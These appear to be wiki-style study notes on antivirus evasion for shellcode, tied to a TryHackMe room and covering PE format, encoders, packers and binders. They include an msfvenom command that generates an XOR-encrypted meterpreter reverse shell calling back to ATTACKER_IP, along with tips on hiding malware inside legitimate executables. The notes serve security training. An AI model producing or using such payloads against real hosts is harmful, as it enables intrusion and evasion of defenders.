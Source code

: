 # Antivirus Evasion Shellcode

Shellcode is a set of crafted machine code instructions that instruct a vulnerable program to run 
additionally functionality like spawn system shells or reverse shell. Consider visiting the article [[Shellcode]] contains descriptions and further links to various aspects, use case and writing.

[[Windows-Portable-Executable-Format]] is a data structure for file information, organising executable file on a disk; it is important to understand this format for AV as suitable shellcode location, how unpacking and packing occurs and finally that malware analysts and AV analyses this format and its contents to detect malicious code.  

[[Shellcode]] is a set of machine code instructions that executes a payload within the runtime context of vulnerable software to then exploit a machine - see article. To bypass AV we either require a staged or stageless payload.

Encoding or the use of [[Cryptography]] can be used to bypass AV, but modern AV may check for excessive amounts of entropy.  [[Metasploit]] and [[Metasploit-AV-Evasion]]
```bash 
# Find "excellent" encoders 
msfvenom --list encoders | grep excellent
# List encryption formats
msfvenom --list encrypt
# Encrypting meterpreter
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyKey" -o xored-revshell.exe
```

[[Packers]] transform a program as input so that the functionality is the same but its structure differs:
- Compression to reduce size
- Protect against [[Static-Malware-Analysis]] and [[Reverse-Engineering]] - [[Anti-Reverse-Engineering-Techniques]]

Packers can help evade AV by modifying known signatures in your executable, although packed application can be flagged by AV solutions because of:
- Packed applications contain a stub that can be signatured
- AV that performs In-memory scanning might detect the unpack in-memory code that is malicious to that host. 

[[Binders]] merge executable into a single executable. For AV evasion merging your packed malicious executable with a legitimate executable may help in bypassing AV.

## References

[THM AV Evasion Shellcode Room](https://tryhackme.com/room/avevasionshellcode)